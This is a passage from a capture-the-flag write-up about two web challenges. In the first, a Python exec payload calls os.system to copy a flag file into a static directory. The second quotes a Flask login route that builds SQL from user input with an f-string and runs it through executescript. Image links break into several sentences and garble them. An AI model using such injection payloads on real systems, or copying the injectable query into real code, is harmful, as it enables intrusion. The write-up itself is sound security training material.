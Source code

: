 ![alt text](_attachments/pillow-fight-api.png)


This looks like we can pass our own `eval` command, so I tried workin![alt text](pillow-fight-api.png)ayload to get the flag and write to the `/static` directory. 

```python
exec('import os; os.system("cat flag.txt> ./static/flag.txt")') 
```


![alt text](_attachments/pillow-flag.png)

## MOVEable (376 pts)

We can see in the web application a standard login form, no registration. Aside from that we![alt text](pillow-flag.png)ecuteScript` under `/login` route.

```python
@app.route('/login', methods=['POST'])
def login_user():
    username = DBClean(request.form['username'])
    password = DBClean(request.form['password'])
    
    conn = get_db()
    c = conn.cursor()
    sql = f"SELECT * FROM users WHERE username='{username}' AND password='{password}'"
    c.executescript(sql)
    user = c.fetchone()
    if user:
        #...
```
